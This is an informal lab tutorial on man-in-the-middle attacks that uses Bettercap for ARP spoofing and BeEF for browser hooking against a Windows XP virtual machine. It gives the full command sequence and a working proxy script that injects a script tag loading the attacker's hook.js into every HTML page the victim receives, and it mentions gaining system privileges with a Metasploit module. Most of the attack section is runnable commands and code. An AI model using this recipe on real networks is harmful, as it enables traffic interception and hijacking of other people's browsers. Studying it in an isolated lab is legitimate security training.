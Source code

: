 # LAN Penetration Testing with Beef, Bettercap, and Other Tools


## Introduction

Well... Let's start with some rambling as usual...

Today, I tried using Beef and Bettercap together and found them to be quite effective~

Also, if you are using Internet Explorer (IE), you can use Beef in conjunction with the ms14-064 module in Metasploit to gain system privileges~

Without further ado, let's get started~

### Testing Environment

First, let's talk about the testing environment.

* Attacker machine
    * Arch Linux
    * 192.168.101.15

* Target machine
    * Windows XP on VirtualBox
    * 192.168.101.43

Due to limited resources, we can only use Windows XP for this demonstration~

### Tools Used

1. Bettercap
    * First and foremost, Bettercap~ It is used for ARP spoofing, DNS hijacking, and network interruption attacks, which are all part of man-in-the-middle attacks...
2. Beef
    * Used for browser hijacking... and it can do many things, but I don't know the specifics.
3. Metasploit (msf)
    * Our old friend~

## Testing Process

First, let's open `bettercap`.

```bash
$ sudo bettercap
```

Then we will see the following output..

![](/img/2021-02-02_14-18.png)


**Note: You need to use sudo here because it requires root privileges to access network hardware such as network cards. If you don't use sudo, you will see a prompt like this.**


![](/img/2021-02-02_14-20.png)

Next, set the target for ARP spoofing:

```txt
set arp.spoof.targets 192.168.101.43
```

**Here, the targets are set to the IP address of the target machine.**

Next, start Beef, and remember to use `sudo` as mentioned earlier.

```bash
$ sudo beef
```

The output should be like this:

![](/img/2021-02-02_14-28.png)

Now, let's talk about the links displayed in the terminal:

* Hook URL:  [http://192.168.101.15:3000/hook.js](http://192.168.101.15:3000/hook.js)
    * This is the hook address mentioned earlier. Once a browser visits a page with this JavaScript, it will be hooked by Beef~
        Later, we will write it into an attack script~
* UI URL: [http://192.168.101.15:3000/ui/panel](http://192.168.101.15:3000/ui/panel)
    * This is the Beef control panel. After opening it, you will see a login page, similar to the cover image. After logging in, it will look like this.

![](/img/Screenshot_2021-02-02_BeEF_Control_Panel.png)

About the username and password, here's the thing: In some systems, you can't use the default login credentials `(beef:beef)` for Beef, and it may not even start. For example, this is the case with my Arch Linux.

```txt
[14:40:25][!] ERROR: Default username and password in use!
[14:40:25]    |_  Change the beef.credentials.passwd in config.yaml
```

In such cases, what you need to do is modify the `config.yaml` file. In my case, the file is located at `/usr/share/beef/config.yaml`.

Modify it as follows:

```yaml
beef:
    version: '0.5.0.0-alpha-pre'
    # More verbose messages (server-side)
    debug: false
    # More verbose messages (client-side)
    client_debug: false
    # Used for generating secure tokens
    crypto_default_value_length: 80

    # Credentials to authenticate in BeEF.
    # Used by both the RESTful API and the Admin interface
    credentials:
        user:   "Choose a username"
        passwd: "Think of a password"
```

After that, you can start the system, and the username and password you set will be used for login.

Alright, without further ado, let's continue.

Next, we need to write a JavaScript script to use with Bettercap.

```js
function onResponse(req,res){
    if(res.ContentType.indexOf('text/html')==0){
        var body=res.ReadBody();
        if(body.indexOf('</head>')!=-1){
            res.Body=body.replace(
                '</head>',
               '<script type="text/javascript" src="http://192.168.101.15:3000/hook.js"></script></head>'
            );
            }
        }
}
```

Save this file to a directory of your choice. I will save it to `/home/weepingdogel/Downloads/hack/192.168.101.43/hack.js`.

Then, let's go back to Bettercap and set the `http.proxy.script` parameter to the path mentioned above:

```txt
set http.proxy.script /home/weepingdogel/Downloads/hack/192.168.101.43/hack.js
```

Then start `net.probe`, `arp.spoof`, and `http.proxy` in sequence.

```txt
net.probe on
```

```txt
arp.spoof on
```

```txt
http.proxy on
```

Alright... Now everything is set up and ready to go...

![](/img/2021-02-02_15-12.png)

Then we'll have the target machine open a browser and visit a website...

Since IE8 no longer supports HTTPS for Bing, it will be vulnerable as soon as it opens.

![](/img/VirtualBox_XP_02_02_2021_15_25_46.png)

![](/img/2021-02-02_15-25.png)


